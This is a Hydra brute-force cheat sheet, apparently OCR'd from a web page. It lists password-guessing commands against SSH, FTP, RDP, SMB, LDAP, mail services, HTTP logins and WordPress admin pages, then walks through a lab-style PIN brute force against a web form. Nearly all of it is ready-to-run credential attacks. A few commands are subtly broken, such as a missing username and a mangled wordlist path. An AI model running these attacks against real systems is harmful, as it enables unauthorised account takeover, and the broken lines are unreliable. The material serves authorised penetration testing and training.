 Command         Description
hydra -P password-file.txt -v $ip snmp  Hydra brute force against SNMP
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp     Hydra FTP known user and rockyou password list
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh    Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh       Hydra SSH using a known password and a username list
hydra $ip -s 22 ssh -l -P big_wordlist.txt      Hydra SSH Against Known username on port 22
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V        Hydra POP3 Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V       Hydra SMTP Brute Force
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin       Hydra attack http get 401 login with a dictionary
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip         Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb   Hydra brute force SMB user with rockyou:
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'         Hydra brute force a Wordpress admin login
hydra -L usernames.txt -P passwords.txt $ip smb -V -f   SMB Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f     LDAP Brute Forcing

---------------------------------------------------------------------------------

hydra -l '' -P 3digits.txt -f -v 10.10.50.172 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000

The command above will try one password after another in the 3digits.txt file. It specifies the following:

    -l '' indicates that the login name is blank as the security lock only requires a password
    -P 3digits.txt specifies the password file to use
    -f stops Hydra after finding a working password
    -v provides verbose output and is helpful for catching errors
    10.10.50.172 is the IP address of the target
    http-post-form specifies the HTTP method to use
    "/login.php:pin=^PASS^:Access denied" has three parts separated by :
        /login.php is the page where the PIN code is submitted
        pin=^PASS^ will replace ^PASS^ with values from the password list
        Access denied indicates that invalid passwords will lead to a page that contains the text “Access denied”
    -s 8000 indicates the port number on the target
